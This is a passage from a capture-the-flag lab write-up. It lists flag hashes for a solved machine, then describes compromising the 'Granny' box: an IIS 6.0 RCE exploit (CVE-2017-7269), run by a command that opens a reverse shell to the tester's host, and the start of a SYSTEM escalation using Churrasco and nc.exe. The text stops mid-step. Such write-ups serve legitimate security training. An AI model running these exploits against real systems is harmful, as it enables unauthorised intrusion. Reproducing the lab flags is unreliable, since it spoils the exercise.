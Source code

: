    ![image-20201112214304988](.Report.assets/image-20201112214304988.png)
   user.txt: ba22fde1932d06eb76a163d312f921a2
   root.txt: 4bf12b963da1b30cc93496f617f7ba7c

### 10.10.10.15 - Granny

1. Initial nmap enumeration scans showed this target was running IIS 6.0 on Windows 2003.  Some searching showed this version of IIS has a vulnerability allowing RCE (CVE-2017-7269).  I used the exploit code here to gain a reverse shell back to my Kali Linux machine as the user : https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

   ```bash
   python ii6revshell.py 10.10.10.15 80 10.10.14.37 8000
   # It took about 10 seconds before the reverse shell triggered
   ```
   

![image-20201113205239156](.Report.assets/image-20201113205239156.png)

2. Windows 2003 has a vulnerability allowing the 'Network Service' service account to steal the SYSTEM token and execute commands as this user (CVE 2008-1436).  I used an FTP server on Kali and downloaded the exploit code here (https://github.com/Re4son/Churrasco) and nc.exe onto the target, then used the exploit to initiate a netcat session as the SYSTEM user:
